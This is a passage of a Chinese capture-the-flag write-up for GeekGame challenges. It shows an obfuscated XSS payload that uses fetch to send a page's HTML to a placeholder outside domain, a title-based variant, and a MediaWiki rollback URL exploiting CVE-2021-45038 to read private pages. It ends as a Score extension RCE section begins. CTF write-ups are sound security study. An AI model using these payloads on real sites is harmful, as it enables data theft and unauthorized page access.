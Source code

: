 构造的 payload 如下。

```js
javascript:setTimeout`fetch\x28'https://SUBDOMAIN\x2eDOMAIN/flag' + document['body']['outerHTML']\x29`
```

在本地调试通过以后，我提交了这个 payload，发现服务器没有收到新请求。
没找出原因，于是在比赛期间没做出来。

写 writeup 时突然想到，XSS Bot 会把 title 打出来，那我把 flag 一起打出来不就行了。

试了一下，还真可以了。
遗憾离场.jpg

最终可用的 payload。

```js
javascript:setTimeout`document\x2etitle\x3ddocument['body']['outerHTML']`
```

## 私有笔记

打开题目，发现是在介绍 CVE，那就搜吧。

### 知识，与你分享

第一问要求访问私有页面。

搜索 MediaWiki CVE，看看[官方公告](https://www.mediawiki.org/wiki/2021-12_security_release/FAQ)。

```
CVE-2021-45038: The "rollback" feature (action=rollback) could be passed a specially crafted parameter that allowed an attacker to view the contents of arbitrary pages, regardless of whether they had permissions to do so.
```

公告还贴心地给出了漏洞的利用方法。

```
For the rollback bug, look for action=rollback&from=... where the "from" parameter is a template transclusion (for example, from={{:private page}}). 
```

最终 payload

https://prob07-XXX.geekgame.pku.edu.cn/index.php?title=%E9%A6%96%E9%A1%B5&action=rollback&from={{:Flag}}

### 来我家做客吧

第二问给了登录账号，要 RCE。

题目给了所使用的 Wiki 的版本和安装了的扩展程序。
一看，安装了一个 2019 年的 Score。
想想就不对嘛。

搜索 score cve mediawiki，又看到了[官方公告](https://www.mediawiki.org/wiki/Extension:Score/2021_security_advisory).
